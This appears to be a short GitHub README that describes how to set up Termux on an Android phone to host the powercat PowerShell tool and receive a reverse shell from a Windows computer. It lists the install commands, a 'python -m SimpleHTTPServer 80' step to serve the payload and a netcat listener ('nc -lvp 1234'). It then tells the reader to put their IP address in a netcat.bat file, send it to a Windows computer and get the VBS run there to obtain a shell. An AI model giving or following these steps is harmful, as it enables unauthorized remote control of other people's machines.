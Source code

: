 # netcat-powershell-usable-on-android
1 download termux from playstore 
apt update 
apt upgrade 
termux-setup-storage and do allow

apt install python
apt install python2
apt install git
apt install netcat

2 git clone https://github.com/besimorhino/powercat.git 
3 cd powercat
4 python -m SimpleHTTPServer 80
5 open a new session on termux and listen with netcat by using this command
nc -lvp 1234

now reopen another termux session and type ifconfig to know ur ipadress 

and edit it on the  netcat.bat file

send to a windows computer and run the vbs

u will get a shell in the netcat session that we opened earlier
thanks for reading:/
